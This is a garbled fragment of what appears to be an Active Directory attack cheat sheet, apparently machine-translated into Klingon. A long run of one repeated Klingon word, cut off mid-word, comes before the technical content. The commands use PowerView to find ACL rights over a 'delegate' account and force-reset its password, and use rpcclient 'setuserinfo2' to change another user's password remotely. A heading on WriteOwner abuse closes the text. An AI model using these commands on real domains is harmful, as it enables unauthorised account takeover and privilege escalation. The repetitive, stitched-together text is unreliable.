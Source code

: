 vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vItlhutlh'e' vIt
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

```bash
rpcclient -U KnownUsername 10.10.10.192
> setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
```
## **WriteOwner on Group**
**ghItlh 'ej GroupDaq WriteOwner**